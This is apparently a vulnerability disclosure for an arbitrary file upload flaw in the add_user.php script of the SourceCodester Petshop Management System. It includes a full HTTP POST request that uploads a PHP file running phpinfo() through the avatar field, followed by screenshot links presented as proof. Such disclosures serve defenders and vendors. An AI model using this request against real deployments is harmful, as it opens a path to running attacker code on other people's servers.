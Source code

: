petshop-management-system add_user.php any file upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

Software Link: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

CMSName: petshop-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the arbitrary file upload vulnerability is that the website application allows users to upload any type of file without restrictions in the add_user.php code, resulting in arbitrary file uploads.

    Payload used:
    
    POST /Petshop_Management_System/controllers/add_user.php HTTP/1.1
    Host: 192.168.2.110
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://192.168.2.110/Petshop_Management_System/
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Length: 175
    
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Disposition: form-data; name="avatar";filename="test2.php"
    
    <?php phpinfo();?>
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM--

Proof of Concept
![image](https://github.com/user-attachments/assets/030e6cd8-7564-4865-9891-7c172f03606b)

![image](https://github.com/user-attachments/assets/83e134d6-6238-4414-bd7c-17311ddfc599)

![image](https://github.com/user-attachments/assets/4fb3e8db-6758-43b2-b227-b55909c30c77)



